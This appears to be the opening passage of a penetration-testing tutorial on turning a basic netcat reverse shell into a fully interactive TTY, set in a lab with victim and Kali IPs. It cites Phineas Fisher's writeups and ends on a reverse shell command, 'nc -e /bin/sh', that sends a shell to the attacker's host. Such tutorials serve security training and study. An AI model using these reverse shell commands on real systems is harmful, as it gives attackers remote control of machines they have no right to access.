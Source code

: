 ```yaml
---
title: NetCat to Full TTY
date: 2025-05-29
categories:
  - To_Sort
  - Under_Development
---
```


Every pentester knows that amazing feeling when they catch a reverse shell with netcat and see that oh-so-satisfying verbose netcat message followed by output from `id`.

And if other pentesters are like me, they also know that dreadful feeling when their shell is lost because they run a bad command that hangs and accidentally hit “Ctrl-C” thinking it will stop it but it instead kills the entire connection.

[![Oops!](https://blog.ropnop.com/images/2017/07/oops_ctrl_c.png)](https://blog.ropnop.com/images/2017/07/oops_ctrl_c.png)

Besides not correctly handling SIGINT, these"dumb” shells have other shortcomings as well:

- Some commands, like `su` and `ssh` require a proper terminal to run
- STDERR usually isn’t displayed
- Can’t properly use text editors like `vim`
- No tab-complete
- No up arrow history
- No job control
- Etc…

Long story short, while these shells are great to catch, I’d much rather operate in a fully interactive TTY.

I’ve come across some good resources that include very helpful tips and techniques for “upgrading” these shells, and wanted to compile and share in a post. Along with Pentest Monkey, I also learned the techniques from Phineas Fisher in his released videos and writeups of his illegal activities:

- [Pentest Monkey - Post Exploitation Without a TTY](http://pentestmonkey.net/blog/post-exploitation-without-a-tty)
- [Phineas Fisher Hacks Catalan Police Union Website](https://www.youtube.com/watch?v=oI_ZhFCS3AQ#t=25m53s)
- [Phineas Fisher - Hackingteam Writeup](http://pastebin.com/raw/0SNSvyjJ)

For reference, in all the screenshots and commands to follow, I am injecting commands in to a vulnerable web server (“VICTIM”) and catching shells from my Kali VM (“KALI”):

- **VICTIM IP**: 10.0.3.7
- **KALI IP**: 10.0.3.4

# Generating reverse shell commands

Everyone is pretty familiar with the traditional way of using netcat to get a reverse shell:

|                 |                                               |
| --------------- | --------------------------------------------- |
| ```<br>1<br>``` | ```bash<br>nc -e /bin/sh 10.0.3.4 4444<br>``` |
